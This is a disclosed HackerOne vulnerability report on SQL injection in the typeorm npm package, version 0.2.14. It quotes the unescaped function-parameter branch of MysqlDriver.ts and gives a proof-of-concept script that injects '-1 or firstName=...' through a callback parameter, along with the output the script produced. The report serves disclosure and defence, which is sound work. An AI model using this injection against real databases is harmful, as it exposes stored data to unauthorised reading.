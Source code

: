 # [typeorm] SQL Injection

## Report Details
- **Report ID**: 506654
- **URL**: https://hackerone.com/reports/506654
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-08T07:49:04.488Z
- **Disclosed**: 2019-04-02T04:25:24.379Z

## Reporter
- **Username**: verichains
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report SQL Injection in typeorm.
It allows reading data from database.

# Module

**module name:** typeorm
**version:** 0.2.14
**npm page:** `https://www.npmjs.com/package/typeorm`

## Module Description

> TypeORM is an ORM that can run in NodeJS, Browser, Cordova, PhoneGap, Ionic, React Native, NativeScript, Expo, and Electron platforms and can be used with TypeScript and JavaScript (ES5, ES6, ES7, ES8). Its goal is to always support the latest JavaScript features and provide additional features that help you to develop any kind of application that uses databases - from small applications with a few tables to large scale enterprise applications with multiple databases.

> TypeORM supports both Active Record and Data Mapper patterns, unlike all other JavaScript ORMs currently in existence, which means you can write high quality, loosely coupled, scalable, maintainable applications the most productive way.



## Module Stats

> Replace stats below with numbers from npm’s module page:

79,749 downloads in the last week

# Vulnerability

## Vulnerability Description

Method `escapeQueryWithParameters` of `MysqlDriver.ts` directly return value from parameter if it is a function without escaping which allow attacker to perform SQL Injection in specialized context.
https://github.com/typeorm/typeorm/blob/d9f5581b22c4cccfab55ee23fad699e1c8acadf8/src/driver/mysql/MysqlDriver.ts#L387

```ts
            if (value instanceof Function) {
                return value();

            } else {
                escapedParameters.push(value);
                return "?";
            }
```

I'm not sure if this is intended or not, there's no information in the document, if someone used this pattern (value provided by a function callback) it will lead to sql injection attack.


## Steps To Reproduce:

- Create a new test typeorm package
```bash
npx typeorm init --name Test --database mysql
```

- Edit `ormconfig.json` for local credentials.

Modify `index.ts` to test the injection:

```ts
import "reflect-metadata";
import {createConnection} from "typeorm";
import {User} from "./entity/User";

createConnection().then(async connection => {

    console.log("Inserting a new user into the database...");

    for(var i=0;i<10;i++) {
        const user = new User();
        user.firstName = `Timber ${i}`;
        user.lastName = "Saw";
        user.age = 25 + i;
        await connection.manager.save(user);
        console.log("Saved a new user with id: " + user.id);
    }

    const repo = connection.getRepository(User);

    console.log(await repo.createQueryBuilder().where('firstName = :name', {name: () => "-1 or firstName=0x54696d6265722033"}).getOne());

    process.exit(0);
}).catch(error => console.log(error));
```
(0x54696d6265722033 is "Timber 3")

Output:
```
Inserting a new user into the database...
User { id: 5, firstName: 'Timber 3', lastName: 'Saw', age: 28 }
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- MacOs
- NodeJS v8.12.0
- npm 6.4.1

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Allow attackers to perform SQL Injection attacks.

## Attachments
No attachments
